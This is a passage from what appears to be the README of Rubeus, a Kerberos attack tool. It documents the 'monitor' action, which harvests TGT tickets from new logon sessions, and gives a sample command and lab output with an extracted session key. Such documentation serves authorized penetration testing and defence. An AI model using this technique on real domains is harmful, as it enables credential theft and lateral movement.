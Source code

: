           doIFNjCCBTKgAwIBBaE...(snip)...


## monitor

The **monitor** action will monitor the event log for 4624 logon events and will extract any new TGT tickets for the new logon IDs (LUIDs). The /interval parameter (in seconds, default of 60) specifies how often to check the event log. A /filteruser:X can be specified, returning only ticket data for said user. This function is especially useful on servers with unconstrained delegation enabled ;)

When the /filteruser (or if not specified, any user) creates a new 4624 logon event, any extracted TGT KRB-CRED data is output.

Further, if you wish to save the output to the registry, pass the /registry flag and specfiy a path under HKLM to create (i.e., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

    c:\Rubeus>Rubeus.exe monitor /filteruser:dfm.a

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.0.0

    [*] Action: TGT Monitoring
    [*] Monitoring every 60 seconds for 4624 logon events
    [*] Target user : dfm.a


    [+] 9/17/2018 7:59:02 PM - 4624 logon event for 'TESTLAB.LOCAL\dfm.a' from '192.168.52.100'
    [*] Target LUID     : 0x991972
    [*] Target service  : krbtgt

      UserName                 : dfm.a
      Domain                   : TESTLAB
      LogonId                  : 10033522
      UserSID                  : S-1-5-21-883232822-274137685-4173207997-1110
      AuthenticationPackage    : Kerberos
      LogonType                : Network
      LogonTime                : 9/18/2018 2:59:02 AM
      LogonServer              :
      LogonServerDNSDomain     : TESTLAB.LOCAL
      UserPrincipalName        :

        ServiceName              : krbtgt
        TargetName               :
        ClientName               : dfm.a
        DomainName               : TESTLAB.LOCAL
        TargetDomainName         : TESTLAB.LOCAL
        AltTargetDomainName      : TESTLAB.LOCAL
        SessionKeyType           : aes256_cts_hmac_sha1
        Base64SessionKey         : orxXJZ/r7zbDvo2JUyFfi+2ygcZpxH8e6phGUT5zDbc=
        KeyExpirationTime        : 12/31/1600 4:00:00 PM
        TicketFlags              : name_canonicalize, renewable, forwarded, forwardable
        StartTime                : 9/17/2018 7:59:02 PM
        EndTime                  : 9/18/2018 12:58:59 AM
        RenewUntil               : 9/24/2018 7:58:59 PM
        TimeSkew                 : 0
        EncodedTicketSize        : 1470
        Base64EncodedTicket      :
